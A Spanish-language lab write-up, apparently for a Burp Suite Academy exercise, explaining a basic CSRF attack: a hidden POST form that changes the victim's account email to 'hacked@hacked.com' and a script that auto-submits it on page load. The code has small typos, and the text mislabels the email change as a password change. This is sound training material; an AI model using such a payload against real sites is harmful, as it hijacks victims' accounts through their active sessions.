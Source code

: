 La técnica consiste en construir una petición POST con los mismos parámetros que la funcionalidad legítima, y luego alojarla en el servidor de explotación proporcionado. Al incluir un pequeño script que autoenvía el formulario al cargar la página, conseguimos que la víctima realice la acción sin saberlo, usando su propia sesión activa.

Este laboratorio representa el escenario más sencillo de explotación CSRF, y sienta las bases para los siguientes ejercicios donde se introducirán mecanismos de defensa como tokens, verificación de cabeceras o validaciones del lado servidor.

------

Podemos mandar la peticion de cambio de contraseña al burp y automatizar un formulario cambio de contraseña, para ello nos copiamos toda la estructura del ejemplo que tenemos del formulario para el cambio de contraseña

```html
<form class"login-form" name="change-email-form" action="/my-accoun/change-email" method="POST">
    <input type="hidden" name="email" value="hacked@hacked.com">
</form>
```

Para automatizar el envio del formulario sin que la victima presione un boton, podemos hacer lo siguiente:

```javascript
document.forms[0].submit()
```

Entonces para plasmar esto en codigo, podemos hacer lo siguiente

```html
<form class"login-form" name="change-email-form" action="https://burpsuite_page_change_email/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacked@hacked.com">
</form>
<script>
    document.forms[0].submit()
</script>

```